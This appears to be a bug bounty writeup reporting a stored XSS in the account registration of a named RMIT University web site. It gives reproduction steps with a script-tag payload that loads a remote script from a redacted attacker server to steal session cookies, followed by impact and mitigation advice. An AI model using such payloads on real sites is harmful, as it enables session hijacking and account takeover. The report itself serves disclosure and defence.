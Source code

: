 # 🦹‍♂️ Account Take Over (via XSS)  👩🏻‍🎓RMIT University

### Summary

A Cross-Site Scripting (XSS) vulnerability has been identified in the account creation process on [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/). This vulnerability allows an attacker to inject malicious scripts that can steal session cookies, enabling account takeover. The injected XSS payload is stored and later executed, making it possible to hijack the affected user's session.

***

### Reproduction Steps

1.  **Access the Site**

    Visit: [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/).
2.  **Navigate to the Login Panel**

    Click on the login/sign-up section of the website.
3.  **Create an Account**

    Use the following credentials for registration:

    * **Email:** `example@bugcrowdninja.com`
    * **Password:** `TestPassword`
4.  **Inject the XSS Payload**

    In one of the registration fields (for example, in a personal information field), insert the following XSS payload:

    ```html
    <script src=//[ REDACTED ]></script>
    ```

    This payload loads an external script from a server under the attacker's control ( \[ REDACTED ] ), which is designed to capture session cookies.
5.  **Complete the Registration**

    Fill in the remaining required information (e.g., entering "Guatemala" in the appropriate field).
6.  **Verify the Injection**

    Inspect the source code of the page displaying the user information to confirm that the XSS payload has been injected without proper sanitization.
7.  **Capture the Cookies**

    Access the attacker's control panel at \[ REDACTED ] to verify that the session cookies have been received, proving that account takeover is possible.

***

### Impact

*   **Cookie Theft and Session Hijacking:**

    By capturing session cookies, an attacker can impersonate a legitimate user, gaining unauthorized access to the compromised account.
*   **Unauthorized Access to Sensitive Data:**

    Exploiting this vulnerability can lead to exposure of personal information and possibly allow the attacker to perform actions on behalf of the user.
*   **Potential Privilege Escalation:**

    If the compromised account has elevated privileges, the attacker might leverage this vulnerability to gain access to additional internal resources or systems.
*   **Lateral Movement:**

    Session hijacking may allow the attacker to move laterally within the network or application, compromising further resources.

***

### Examples of Real Exploitation

*   **External Script Injection for Cookie Capture:**

    The payload `<script src=//[REDACTED]></script>` loads a remote script that registers and sends session cookies to the attacker's server. This is a common technique in persistent XSS attacks.
*   **Account Takeover:**

    Once the session cookies are captured, an attacker can use them in their browser to assume the identity of the victim, effectively taking control of the account.

***

### Mitigation Recommendations

1. **Input Validation and Sanitization:**
   * Implement strict validation for all input fields.
   * Use whitelisting techniques and properly escape any content that is rendered on the client side.
2. **Output Encoding:**
   * Ensure that all data displayed in the user interface is properly encoded to prevent the execution of malicious scripts.
3. **Content Security Policy (CSP):**
   * Configure a CSP that restricts the loading of external scripts and defines trusted sources.
4. **HttpOnly Cookies:**
   * Set session cookies with the `HttpOnly` attribute to prevent them from being accessed via JavaScript.
5. **Code Reviews and Security Audits:**
   * Perform regular code reviews and security audits to identify and remediate any injection points.

***

### Additional Report Link

For further details and evidence extracted from any user who might view my profile, please refer to the following link:

\[ REDACTED ]

***

### Conclusion

The XSS vulnerability in the account creation process on [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/) poses a serious security risk by enabling an attacker to steal session cookies and take over user accounts. It is crucial to implement the recommended mitigation strategies to safeguard user sessions and prevent unauthorized access.

<figure><img src="../.gitbook/assets/Screenshot 2025-04-03 at 06.05.26.png" alt=""><figcaption><p>Self 😭</p></figcaption></figure>
